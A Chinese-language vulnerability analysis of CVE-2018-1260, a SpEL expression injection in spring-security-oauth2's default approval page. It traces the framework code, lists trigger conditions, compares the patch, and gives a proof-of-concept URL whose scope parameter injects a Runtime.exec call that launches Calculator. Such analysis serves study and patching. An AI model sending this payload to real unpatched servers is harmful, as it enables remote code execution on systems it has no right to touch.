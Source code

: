 ### CVE-2018-1260 spring-security-oauth2 RCE Analysis

#### 介绍

根据Sping官方给出的公告信息，spring-security-oauth若干版本中包含一个RCE漏洞,恶意攻击者构造特定授权请求，当资源所有者将其转发给approval批准页面时可导致远程代码执行。

漏洞触发条件：
* 应用程序做为授权服务器角色 (例如使用注解@EnableAuthorizationServer)
* 使用默认的Approval Endpoint

实际开发中，大部分oauth2使用者一般都会重写Approval Endpoint以满足自身需求。所以初步看这个漏洞利用条件还是比较苛刻的。
受影响版本及详细可参考官方的公告：
> [Spring Security OAuth：versions 2.3 prior to 2.3.3 and 2.2 prior to 2.2.2 and 2.1 prior to 2.1.2 and 2.0 prior to 2.0.15 and older unsupported versions](https://pivotal.io/security/cve-2018-1260)

#### 漏洞DEMO分析

官方的[sample](https://github.com/spring-projects/spring-security-oauth/tree/master/tests/annotation/approval)示例代码及网络上关于oauth2的demo不少，以[Spring Security OAuth2 Demo工程](https://github.com/wanghongfei/spring-security-oauth2-example)为例新进行调试分析。作者给出了mysql表信息，创建数据库并添加一条测试数据即可以运行该demo，详细见sample代码库README描述。

可以看到这个demo启动类使用了@EnableAuthorizationServer注解，并且使用默认的授权批准页面。这里要说明的是authorization code模式的授权方式，如图所示：
![bg2014051204.png](http://www.ruanyifeng.com/blogimg/asset/2014/bg2014051204.png)
用户发起授权请求时，client端将用户导向认证服务器，用户认证后进行approval授权批准，用户approval后，认证服务器将用户导向client端事先指定的重定向URIredirection URI），同时附上一个授权码，client端拿这个授权码向认证服务器申请访问令牌及刷新令牌，从而完成Oauth授权。在spring-security-oauth2中默认由请求/oauth/authorize处理授权请求，代码如下：

```java
@RequestMapping(value = "/oauth/authorize")
	public ModelAndView authorize(Map<String, Object> model, @RequestParam Map<String, String> parameters,
			SessionStatus sessionStatus, Principal principal) {
		AuthorizationRequest authorizationRequest = getOAuth2RequestFactory().createAuthorizationRequest(parameters);

		Set<String> responseTypes = authorizationRequest.getResponseTypes();

		if (!responseTypes.contains("token") && !responseTypes.contains("code")) {
			throw new UnsupportedResponseTypeException("Unsupported response types: " + responseTypes);
		}

		if (authorizationRequest.getClientId() == null) {
			throw new InvalidClientException("A client id must be provided");
		}
    ....
    oauth2RequestValidator.validateScope(authorizationRequest, client);
    ....
    return getAuthorizationCodeResponse(authorizationRequest, (Authentication) principal);
    ....
      
```
逐步往下看，其中createAuthorizationRequest函数处理授权请求参数并构造AuthorizationRequest对象，主要包含一下参数：

* response_type：表示授权类型，必选项，授权码模式此处的值固定为"code"
* client_id：表示客户端的ID，必选项
* redirect_uri：表示重定向URI，可选项
* scope：表示申请的权限范围，可选项
* state：表示客户端的当前状态，可以指定任意值，认证服务器会原封不动地返回这个值。

而后面的validateScope会对scope参数进行校验检查，如果clientScopes不为空则进行白名单检查，如果授权请求传入的scope不在设置的clientScopes这个list中，则抛出异常Invalid scope,如果clientScopes为空，则仅校验输入的scope不为空即会继续执行程序。而这个漏洞的触发点正式scope参数，所以在示例demo中一定要设置clientScopes为空，这也是这个漏洞触发的一个前提条件。validateScope的代码如下：
```java
private void validateScope(Set<String> requestScopes, Set<String> clientScopes) {

		if (clientScopes != null && !clientScopes.isEmpty()) {
			for (String scope : requestScopes) {
				if (!clientScopes.contains(scope)) {
					throw new InvalidScopeException("Invalid scope: " + scope, clientScopes);
				}
			}
		}
		
		if (requestScopes.isEmpty()) {
			throw new InvalidScopeException("Empty scope (either the client or the user is not allowed the requested scopes)");
		}
	}
```
最后调用getAuthorizationCodeResponse将请求forward至/oauth/confirm_access页面，由用户进行approval批准授权，代码如下：
```java
// We need explicit approval from the user.
	private ModelAndView getUserApprovalPageResponse(Map<String, Object> model,
			AuthorizationRequest authorizationRequest, Authentication principal) {
		if (logger.isDebugEnabled()) {
			logger.debug("Loading user approval page: " + userApprovalPage);
		}
		model.putAll(userApprovalHandler.getUserApprovalRequest(authorizationRequest, principal));
		return new ModelAndView(userApprovalPage, model);
	}
```
这里userApprovalPage即为/oauth/confirm_access，model中包含了之前构造的授权请求AuthorizationRequest对象。[ModelAndView](https://docs.spring.io/spring/docs/current/javadoc-api/org/springframework/web/servlet/ModelAndView.html)简单说就是MVC框架中包含Model和View的对象，ModelAndView返回模型和视图后由DispatcherServlet解析处理该请求。随之程序进入/oauth/confirm_access，代码如下：
```java
@RequestMapping("/oauth/confirm_access")
	public ModelAndView getAccessConfirmation(Map<String, Object> model, HttpServletRequest request) throws Exception {
		String template = createTemplate(model, request);
		if (request.getAttribute("_csrf") != null) {
			model.put("_csrf", request.getAttribute("_csrf"));
		}
		return new ModelAndView(new SpelView(template), model);
	}
```
createTemplate函数创建模版视图，经过一些替换及拼接处理得到最终的template如下：
![57e4247b.png](https://xzfile.aliyuncs.com/media/upload/picture/20181105193906-66e0680e-e0ef-1.png)
然后调用了SpelView初始化view对象。传入ModelAndView展示approval批准授权页面，之后DispatcherServlet解析处理，之后通过view.render调用加载视图。
```java
try {
			view.render(mv.getModelInternal(), request, response);
		}
		catch (Exception ex) {
			if (logger.isDebugEnabled()) {
				logger.debug("Error rendering view [" + view + "] in DispatcherServlet with name '" +
						getServletName() + "'", ex);
			}
			throw ex;
		}
```
因为这里的view是SpelView对象，所以进入SpelView类的render方法：
```java
public void render(Map<String, ?> model, HttpServletRequest request, HttpServletResponse response)
			throws Exception {
		Map<String, Object> map = new HashMap<String, Object>(model);
		String path = ServletUriComponentsBuilder.fromContextPath(request).build()
				.getPath();
		map.put("path", (Object) path==null ? "" : path);
		context.setRootObject(map);
		String maskedTemplate = template.replace("${", prefix);
		PropertyPlaceholderHelper helper = new PropertyPlaceholderHelper(prefix, "}");
		String result = helper.replacePlaceholders(maskedTemplate, resolver);
		result = result.replace(prefix, "${");
		response.setContentType(getContentType());
		response.getWriter().append(result);
	}
```
调试跟进replacePlaceholders函数，可以看到函数调用了parseStringValue方法，并将模版中每一个变量值都传入resolvePlaceholder方法将输入变量做为Spel表达式去解析，resolvePlaceholder方法如下：
```java
public String resolvePlaceholder(String name) {
				Expression expression = parser.parseExpression(name);
				Object value = expression.getValue(context);
				return value == null ? null : value.toString();
			}
```
其中expression.getValue会最终调用继承了MethodExecutor的ReflectiveMethodExecutor执行java.lang.Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator")，从而造成任意代码执行漏洞。理论上这里传入的name参数包括_csrf.token、client、path、scope等参数只要可控，都可以造成代码执行。
![d3471a88.png](https://xzfile.aliyuncs.com/media/upload/picture/20181105193934-778b7932-e0ef-1.png)

#### 漏洞POC

http://localhost:8080/oauth/authorize?client_id=client&response_type=code&redirect_uri=http://www.github.com/cryin/paper&scope=%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22/Applications/Calculator.app/Contents/MacOS/Calculator%22%29%7D


#### 补丁对比

通过补丁可以看到官方把SpelView去掉，转而使用普通的View对象，同时对默认模版进行了一些修改。
[Remove SpelView in WhitelabelApprovalEndpoint · spring-projects/spring-security-oauth@1c6815a · GitHub](https://github.com/spring-projects/spring-security-oauth/commit/1c6815ac1b26fb2f079adbe283c43a7fd0885f3d)：https://github.com/spring-projects/spring-security-oauth/commit/1c6815ac1b26fb2f079adbe283c43a7fd0885f3d

#### 总结
通过分析可知，这个漏洞触发的前提条件较多，除文章开头官方给出的两个条件外，授权服务的scope也需要设置为空，这种情况在实际应用中非常少见。但这个漏洞的重点不是Oauth本身，而是Spel表达式使用带来潜在的安全问题。诸如SpelView等涉及spel表达式解析的接口应该还很多。只要参数外部可控均有可能造成任意代码执行。这个问题有点和Struts2的OGNL表达式相似。Spel表达式注入可能是Spring后面会面临较多的安全问题。挖漏洞也可以从这个方向入手。

#### 参考

* [h3xStream's blog: Beware of the Magic SpEL(L) - Part 1 (CVE-2018-1273)](https://blog.h3xstream.com/2018/05/beware-of-magic-spell-part-1-cve-2018.html)
* [Remove SpelView in WhitelabelApprovalEndpoint · spring-projects/spring-security-oauth@1c6815a · GitHub](https://github.com/spring-projects/spring-security-oauth/commit/1c6815ac1b26fb2f079adbe283c43a7fd0885f3d)
* [GitHub - wanghongfei/spring-security-oauth2-example: Spring Security OAuth2 Demo工程](https://github.com/wanghongfei/spring-security-oauth2-example)
* [Spring Security OAuth](http://projects.spring.io/spring-security-oauth/docs/oauth2.html)
* [理解OAuth 2.0 - 阮一峰的网络日志](http://www.ruanyifeng.com/blog/2014/05/oauth_2_0.html?tdsourcetag=s_pctim_aiomsg)
* [spring-security-oauth/tests/annotation/approval at master · spring-projects/spring-security-oauth · GitHub](https://github.com/spring-projects/spring-security-oauth/tree/master/tests/annotation/approval)
